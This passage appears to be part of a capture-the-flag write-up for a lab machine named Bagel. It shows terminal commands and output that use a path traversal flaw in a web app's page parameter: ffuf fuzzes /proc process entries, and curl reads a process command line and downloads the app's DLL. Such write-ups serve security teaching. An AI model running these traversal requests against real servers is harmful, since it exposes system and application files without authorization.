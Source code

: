 

    oxdf@hacky$ ffuf -u http://bagel.htb:8000/?page=../../../../proc/FUZZ/cmdline -w <(seq 1 10000) -mr 'dotnet'

            /'___\  /'___\           /'___\       
           /\ \__/ /\ \__/  __  __  /\ \__/       
           \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
             \ \_\   \ \_\  \ \____/  \ \_\       
              \/_/    \/_/   \/___/    \/_/       

           v2.0.0-dev
    ________________________________________________

     :: Method           : GET
     :: URL              : http://bagel.htb:8000/?page=../../../../proc/FUZZ/cmdline
     :: Wordlist         : FUZZ: /dev/fd/63
     :: Follow redirects : false
     :: Calibration      : false
     :: Timeout          : 10
     :: Threads          : 40
     :: Matcher          : Regexp: dotnet
    ________________________________________________

    890                     [Status: 200, Size: 45, Words: 1, Lines: 1, Duration: 86ms]
    924                     [Status: 200, Size: 45, Words: 1, Lines: 1, Duration: 92ms]
    926                     [Status: 200, Size: 45, Words: 1, Lines: 1, Duration: 92ms]
    925                     [Status: 200, Size: 45, Words: 1, Lines: 1, Duration: 103ms]
    927                     [Status: 200, Size: 45, Words: 1, Lines: 1, Duration: 101ms]
    928                     [Status: 200, Size: 45, Words: 1, Lines: 1, Duration: 99ms]
    929                     [Status: 200, Size: 45, Words: 1, Lines: 1, Duration: 96ms]
    930                     [Status: 200, Size: 45, Words: 1, Lines: 1, Duration: 102ms]
    1035                    [Status: 200, Size: 45, Words: 1, Lines: 1, Duration: 92ms]
    1043                    [Status: 200, Size: 45, Words: 1, Lines: 1, Duration: 88ms]
    1045                    [Status: 200, Size: 45, Words: 1, Lines: 1, Duration: 90ms]
    :: Progress: [10000/10000] :: Job [1/1] :: 229 req/sec :: Duration: [0:00:44] :: Errors: 0 ::



There's a bunch of hits, but all the same size (and all the same on some
inspection).

#### Get File

The various `cmdlines` are all the same:



    oxdf@hacky$ curl -o- http://bagel.htb:8000/?page=../../../../proc/924/cmdline
    dotnet/opt/bagel/bin/Debug/net6.0/bagel.dll



I'm able to get the DLL file:



    oxdf@hacky$oxdf@hacky$ curl -o bagel.dll http://bagel.htb:8000/?page=../../../../opt/bagel/bin/Debug/net6.0/bagel.dll
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100 10752  100 10752    0     0  61497      0 --:--:-- --:--:-- --:--:-- 61793
    oxdf@hacky$ file bagel.dll 
    bagel.dll: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows
